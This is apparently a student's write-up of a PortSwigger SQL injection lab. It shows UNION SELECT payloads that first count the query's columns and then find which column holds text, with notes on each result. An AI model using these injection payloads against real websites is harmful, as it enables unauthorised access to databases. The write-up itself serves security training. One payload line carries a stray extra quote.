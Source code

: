 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/bb62cddb-eff4-4e33-82b7-2a457ab0d128)

## Solution :
Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

#### Finding out the number of columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL--
```

**2 NULL** returns no error , which means there are 2 columns in the database.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b8bc92f3-9631-468d-ada3-544e50f640b4)

####  Finding out which columns contain text data -

**1st column**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'd',NULL --
```

Internal Server Error

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/49e9d2cc-5f43-4353-8d6f-9fe917ead767)


**2nd Column**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,'d' --
```
This column contains text data .

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d41987fb-4556-4e51-b0d4-4169caa0de96)



